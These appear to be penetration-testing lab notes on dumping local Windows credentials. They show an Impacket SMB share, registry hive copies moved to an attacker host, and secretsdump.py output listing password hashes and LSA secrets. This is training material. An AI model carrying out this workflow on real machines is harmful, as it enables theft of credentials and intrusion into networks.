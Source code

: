 #### AD Attack
[[Password Attacks]] [[Password_Cracking]] #ActiveDirectory #Impacket 
Creating a Share with smbserver.py

```python
TheCyberScythe@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Moving Hive Copies to Share
```python
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

Confirming Hive Copies Transferred to Attack Host

```python
TheCyberScythe@htb[/htb]$ ls

sam.save  security.save  system.save

Dumping Hashes with Impacket's secretsdump.py
```

One incredibly useful tool we can use to dump the hashes offline is Impacket's secretsdump.py. Impacket can be found on most modern penetration testing distributions. We can check for it by using locate on a Linux-based system:

Locating secretsdump.py

```python
TheCyberScythe@htb[/htb]$ locate secretsdump 
```

Running secretsdump.py

```python
TheCyberScythe@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 
```
